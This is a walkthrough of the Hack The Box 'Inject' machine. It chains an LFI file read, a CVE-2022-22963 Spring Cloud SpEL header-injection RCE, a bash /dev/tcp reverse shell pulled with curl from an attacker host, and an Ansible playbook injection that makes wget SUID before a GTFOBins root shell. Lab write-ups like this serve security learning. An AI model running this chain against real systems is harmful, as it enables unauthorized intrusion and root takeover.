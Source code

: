 # Inject - HTB(Easy)
## IP = 10.129.183.48

### NMAP

```
PORT     STATE SERVICE     VERSION                                                                                                            
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 caf10c515a596277f0a80c5c7c8ddaf8 (RSA)              
|   256 d51c81c97b076b1cc1b429254b52219f (ECDSA)   
|_  256 db1d8ceb9472b0d3ed44b96c93a7f91d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA                      
|_http-title: Home                                                                                             
| http-methods:                                                       
|_  Supported Methods: GET HEAD OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


### Enumeration

So when entering the website page you can see at the top right corner a link to an upload page, over there it seems you can upload an image, when trying to upload a non image extension it's not allowing the upload, so I said to myself let's check how it looks with a real image first and if i'll be stuck i'll return to the upload function and see if there are any vulnerabilities. So I uploaded an image and it gave me a link when entering the link you can see the following: 

`http://10.129.187.33:8080/show_image?img=<image>`

So I instantly thought about LFI because the image is a GET request. I tried some common LFI payloads and nothing worked so I tried the following 

`http://10.129.187.33:8080/show_image?img=../../../../../../usr/share/plymouth/ubuntu-logo.png`

And it worked so there is LFI but we got that image filtering. Now it's just figuring out how to bypass that filtering, so open BurpSuite and intercept that image request, you'll see the following header:

`Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8`

So I guessed thats there way of filtering, so if we just remove `image/avif,image/webp` and then try the LFI payloads it will work perfectly. Alternatively, you can run the request with `curl` and it work great because with curl you don't use headers.

```
$ curl -s 'http://10.129.187.33:8080/show_image?img=../../../../../../../../../../etc/passwd' | grep "bash"
root:x:0:0:root:/root:/bin/bash
frank:x:1000:1000:frank:/home/frank:/bin/bash
phil:x:1001:1001::/home/phil:/bin/bash
```

After searching for a little bit I found the following:

```

$ curl -s 'http://10.10.11.204:8080/show_image?img=../../../../../../../../../home/frank/.m2/settings.xml'
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>

```

This is `phil`'s password: `DocPhillovestoInject123` but unfortunately it's a rabbit hole and the creds are not working. So I had to search more, I came through the `pom.xml` file, the pom is a sort of configuration file for the MAVEN project, in the file there are all sorts of frameworks and plugins with their versions. The interesting part in the `pom.xml` was the following: 


```

<dependency>
  <groupId>org.springframework.cloud</groupId>
  <artifactId>spring-cloud-function-web</artifactId>
  <version>3.2.2</version>
</dependency>

```

I searched for every framework version an exploit and I found this: CVE-2022-22963 - Spring Cloud RCE Vulnerability. The issue with CVE-2022-22963 is that it permits using HTTP request header spring.cloud.function.routing-expression parameter and SpEL expression to be injected and executed through StandardEvaluationContext. Exploiting the vulnerability is quite easy to accomplish. The following is the `curl` command need to be run to succeed with the exploit.

`$ curl -X POST  http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("<command>")' --data-raw 'data' -v`

So now lets exploit. First we check if it works so we run:

`$ curl -X POST  http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("touch /dev/shm/pwned")' --data-raw 'data' -v`

```

curl -s 'http://10.10.11.204:8080/show_image?img=../../../../../../../../../../../dev/shm'
pwned
```

Great it works, now lets make a reverse shell. To do that we want to open a http server and download a shell file to the server then execute it with a lister to catch the call. 

```

$ curl -X POST  http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("mkdir /dev/shm/new_dir")' --data-raw 'data' -v

$ echo "bash -i >& /dev/tcp/10.10.15.9/9081 0>&1" > shell.sh

(Window 1)$ python3 -m http.server 80
(Window 2)$ curl -X POST  http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("curl http://10.10.15.9/shell.sh -o /dev/shm/new_dir/shell.sh")' --data-raw 'data' -v

(Window 1)$ nc -lnvp 9081
(Window 2)$ curl -X POST  http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash /dev/shm/new_dir/shell.sh")' --data-raw 'data' -v

connect to [10.10.15.9] from (UNKNOWN) [10.10.11.204] 49210
bash: cannot set terminal process group (786): Inappropriate ioctl for device
bash: no job control in this shell
frank@inject:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'

```

Now we have a shell. We can maybe try phil's credentials again:

```

frank@inject:/$ su phil
su phil
Password: DocPhillovestoInject123

phil@inject:/$ cat user.txt && id && whoami
abe54e02678da826fb19c5e30d2636db
uid=1001(phil) gid=1001(phil) groups=1001(phil),50(staff)
phil

```

curl http://10.10.15.9/playbook_1.yml -o /opt/automation/tasks/playbook_2.yml


### PrivEsc

When trying to do all the regular sudo or suid check nothing seems to come up, so I opened `pspy` and looked. It seems that the machine is running automatically a command and it goes as follows: 

`/usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml`

If the target system runs automation tasks with Ansible Playbook as root and we have write permission of task files (tasks/), we can inject arbitrary commands in yaml file.

So what I did is the following:

```
$ cat playbook_1.yml 
- hosts: localhost
  tasks:
  - name: Checking webapp service
    ansible.builtin.systemd:
      name: webapp
      enabled: yes
      state: started
  - name: Evil
    ansible.builtin.shell: |
      chmod +s /usr/bin/wget
    become: true
```
Created a copy of the file and added to it malicious code.

```
$ curl http://10.10.15.9/playbook_1.yml -o /opt/automation/tasks/playbook_2.yml
```

Uploaded to the shell. After that I waited, until the system will run the task as root, I knew when it ran after the malicious file was deleted.

```

$ ls -l /usr/bin/wget
-rwsr-sr-x 1 root root 544472 Nov 12  2021 /usr/bin/wget

```
After that I checked if it worked, and it did, `wget` is now a SUID. You may be wondering why I didn't make bash a suid, well the explanation is simple, it was already a suid, unfortunately someone beat me to root and got bash first, but it doesn't matter if want you can do bash it will be easier because after it's a SUID you can just run `bash -p` and you'll be root. So on to the `wget`, now that it's a suid you can go to GTFObins and copy the steps.

```

phil@inject:/opt/automation/tasks$ TF=$(mktemp)
phil@inject:/opt/automation/tasks$ chmod +x $TF
phil@inject:/opt/automation/tasks$ echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' >$TF
phil@inject:/opt/automation/tasks$ /usr/bin/wget --use-askpass=$TF 0

# whoami && id && cat /root/root.txt
root
uid=1001(phil) gid=1001(phil) euid=0(root) egid=0(root) groups=0(root),50(staff),1001(phil)
ff6a3b8f5f811c416f14f25a747c913c

```

And BOOM! that was Inject. Thanks For tuning in. Cheers.